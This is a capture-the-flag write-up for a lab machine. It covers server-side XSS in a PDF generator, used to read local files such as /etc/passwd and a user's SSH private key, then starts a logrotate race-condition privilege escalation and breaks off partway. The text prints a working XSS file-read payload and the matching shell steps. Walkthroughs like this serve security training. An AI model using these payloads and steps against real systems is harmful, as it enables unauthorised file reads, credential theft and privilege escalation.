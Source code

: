 ## Arbitrary File Read 
Now that we have found the vulnerability we can proceed onto exploiting it. We find this [article](https://buer.haus/2017/06/29/escalating-xss-in-phantomjs-image-rendering-to-ssrflocal-file-read/). We can use a simplified version of this method now that we known that we need [XSS to read local files](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf#read-local-file). This is the final payload:

```bash
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(btoa(this.responseText))}; # remove the btoa function
x.open("GET","file:///etc/passwd");x.send();
</script>
```

Now input this to the book tittle field and fill in the rest, go to the admin collections page and execute the collection PDF. What you'll have now is a PDF but it's contents are the contents of the file that we specified to be read. With this in mind we can steal the low privileged user's private keys, because we known port 22 ssh is open and connect to the filesystem.

Now we have the private key in pdf format so let's convert it to text with `pdftohtml` and then we can grab the key and log on to the filesystem.

## Privilege Escalation

In `/home/reader/`, there’s a folder, `backsups` which has two log files inside and only one has data:

```bash
reader@book:~/backups$ ls -l 
# total 4 
# -rw-r--r-- 1 reader reader 0 Jan 29 13:05 access.log 
# -rw-r--r-- 1 reader reader 91 Jan 29 13:05 access.log.1 

reader@book:~/backups$ cat access.log.1 
# 192.168.0.104 - - [29/Jun/2019:14:39:55 +0000] "GET /robbie03 HTTP/1.1" 404 446 "-" "curl"
```

With the help of `linpeas.sh` with find this related to the log files we found in the backups folder.

```bash
[+] Writtable log files (logrotten)
Writable: /home/reader/backups/access.log
```

And the exploit explaination [here](https://book.hacktricks.xyz/linux-unix/privilege-escalation#logrotate-exploitation). 

## Logrotten Race Condition Exploitation

After reading we can start to exploit this:

```bash
# First add some text to the acces.log file
reader@book:~/backups$ echo randomtext > access.log
# After some seconds a new log file appears
reader@book:~/backups$ ls 
access.log access.log.1 access.log.2
```
